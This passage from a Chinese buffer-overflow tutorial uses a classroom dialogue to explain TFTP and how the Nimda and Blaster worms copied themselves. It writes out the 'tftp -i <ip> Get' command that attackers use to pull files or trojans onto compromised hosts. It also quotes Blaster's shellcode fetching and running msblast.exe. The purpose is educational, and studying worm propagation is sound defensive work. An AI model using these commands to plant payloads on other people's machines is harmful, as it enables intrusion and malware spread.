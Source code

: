 “至于 Windows 堆结构的讲解，以后有机会我们再讲吧！”老师说道，“现在我们直接拿来用。在一般的 ShellCode 前加上这段代码，就可恢复覆盖掉的堆结构。”

# 6.3.2 TTP 和 FTP 客户端——冲击波/震荡波传播的实现

### 6.3.2 TTP 和 FTP 客户端——冲击波/震荡波传播的实现

“而第二个技巧，就是考虑蠕虫病毒们的传播技巧。”

“Nimda、冲击波以及震荡波蠕虫，都曾给网络带来巨大的破坏，其传播速度之快，除了很多机器系统本身具有漏洞之外，还有个重要的原因：蠕虫具有很强的在网络上自我复制和传输的能力。”

大家都认真的听着。

“我们这里只分析它们的传播方法，不教大家如何写蠕虫病毒！”老师强调说，“让大家知道怎样更好的防范。”

“嗯，知道了，老师接着说吧！”

“Nimda 和冲击波在网络上的自我复制和传输，是利用 TFTP 来实现的；而震荡波，则是进行了改进，用 FTP 实现的。”

“让我们来看看 TFTP 是如何工作的。以下载文件为例，在开始工作时，客户发送一个读请求给服务器，如果请求的文件能被读取，TFTP 服务器就返回一个块编号为 1 的数据分组；TFTP 客户发送一个块编号为 1 的 ACK；TFTP 服务器随后发送块编号为 2 的数据；TFTP 客户发回块编号为 2 的 ACK。重复这个过程，直至这个文件传送完毕。”

小知识：TFTP 是基于 UDP 的，其数据报有四种类型

第一种：客户发出的是读或写请求，含有文件名和模式。操作码是 1 或 2。

第二种：服务器发送的数据，含有块编号和 512 字节的数据。操作码是 3。

第三种：客户发的回应，含有收到的块编号。操作码是 4。

第四种：错误信息，含有差错码和差错信息。操作码是 5。

其类型如图 6－20，我们可据此编写出 TFTP 的服务器。

![](img/Q 版缓冲区溢出教程 205496.jpg)

“好了，说了这么多，在 Windows 中，我们利用现成的 TFTP 服务程序来实现上传和下载文件是很简单的。TFTPD32.exe 是个很好的 TFTP 服务器，由 Ph.Jounin 编写。直接运行 TFTPD32.exe，就可建立一个 TFTP 服务器。可以选择要绑定的 IP 和目录文件夹，其运行界面如图 6－21。”

![](img/Q 版缓冲区溢出教程 205651.jpg)

“而 TFTP 的客户端是 Windows 自带的。在命令行下直接运行 TFTP –i IP Get (Put) FileName 就可在本机执行 TFTP 客户端，以供和服务器传输文件。如图 6－22，在 IP 为 192.168.1.166 的 TFTP 服务器上下载了一个名为 ww.txt 的文件。”

![](img/Q 版缓冲区溢出教程 205794.jpg)

“这招常被黑客使用：他们在自己的主机上建一个 TFTP 服务器，进入别人的主机后，直接输 tftp –i 自己 ip Get (Put) FileName 就可实现文件上传/下载，如下载自己感兴趣的东东，或上传一个木马之类的。”

“然而在 Nimda 和冲击波等病毒中，它们用的是谁的 TFTP 服务器呢？肯定不会是用 TFTPD32 建立的服务器吧！那是谁建的服务器呢？”同学们问道。

“嗯，答案就是：病毒自己！在病毒程序中，自己实现了一个 TFTP 服务器！”

“哦？”

“冲击波运行时，分成了两个线程。”

“其中一个线程功能是：在本机绑定并监听 69 端口，建立一个 TFTP 服务器等待别的机器来连接。如果有其他主机连接这个服务器，则会把 msblast.exe 文件传送过去。”

“另一个就是攻击线程。它向其他主机的 135 端口发送攻击代码——ShellCode，如果其他主机有系统漏洞，就会执行攻击代码。而它的攻击代码是精心构造的，所完成的功能就是执行 TFTP -i ip GET msblast.exe 去下载冲击波程序，下载完毕后并且执行。”
